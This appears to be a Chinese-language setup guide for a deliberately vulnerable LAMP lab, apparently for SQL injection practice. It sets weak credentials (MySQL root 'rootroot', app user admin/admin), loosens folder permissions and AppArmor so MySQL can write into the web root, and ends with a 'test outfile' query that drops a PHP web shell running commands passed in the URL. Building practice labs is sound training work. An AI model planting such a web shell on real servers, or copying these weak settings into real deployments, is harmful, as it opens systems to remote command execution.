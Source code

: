 # sql

## 安裝Apache

執行：

$ sudo apt install apache2

檢查Apache是否正常運行：

$ sudo systemctl status apache2


## 安裝MySQL
執行

/opt/lampp/bin/mysql -u root

設定MySQL root user的密碼：

sudo mysql_secure_installation

改 root 密碼

$ /opt/lampp/bin/mysql -u root

> ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'rootroot';

> SET PASSWORD FOR 'root'@'localhost' = PASSWORD('rootroot');


### 建db


```
create database  user_db;
use user_db;
```

* 創table item
```
CREATE TABLE `item` (
  `id` int NOT NULL AUTO_INCREMENT,
  `name` varchar(100) NOT NULL,
  `attack` int NOT NULL,
  `defense` int NOT NULL,
  PRIMARY KEY (`id`)
)
```
* item 資料
```
INSERT INTO `item`(`id`, `name`, `attack`, `defense`) VALUES (1,'小李飛刀',100,323),
(2,'屠龍刀',200,40),
(3,'桃園盾',20,500),
(4,'倚天劍',100,100),
(5,'晨星虎斧',318,407),
(6,'封魔流星破',247,50),
(7,'霸虎風魔斬',469,54),
(8,'修羅鬼噬爪',464,415),
(9,'鬼噬日暮滅',327,401),
(10,'洪流鳳火舞',378,485),
(100,'彥宇大悲咒',2000,0);
```

* 創table user_table

```
CREATE TABLE `user_table` (
  `user_id` int NOT NULL AUTO_INCREMENT,
  `user_name` varchar(40) NOT NULL,
  `user_password` varchar(40) NOT NULL,
  `user_note` varchar(40) NOT NULL,
  PRIMARY KEY (`user_id`)
)
```

* user_table 資料
```

INSERT INTO `user_table`(`user_id`, `user_name`, `user_password`, `user_note`) VALUES(1,'admin','admin','root')
```


## 下載 html.zip

放到 /var/www/html

利用  nautilus 改

sql 資料夾 
Owner: www-data   C&D
Group: www-data   C&D
other:            C&D

upfiles 資料夾 
Owner: mysql   C&D
Group: mysql   C&D
other:         C&D



sudo nano /etc/apparmor.d/local/usr.sbin.mysqld 

/var/www/html/upfiles/ r,
/var/www/html/upfiles/** rw,

sudo apparmor_parser -r /etc/apparmor.d/usr.sbin.mysqld 

mysql -u username -p dbname < dbexport.sql

測試outfile
select 1,2,3,"<?php echo shell_exec($_GET['cmd']) ?>"  from item into outfile "/var/www/html/upfiles/shell.php";
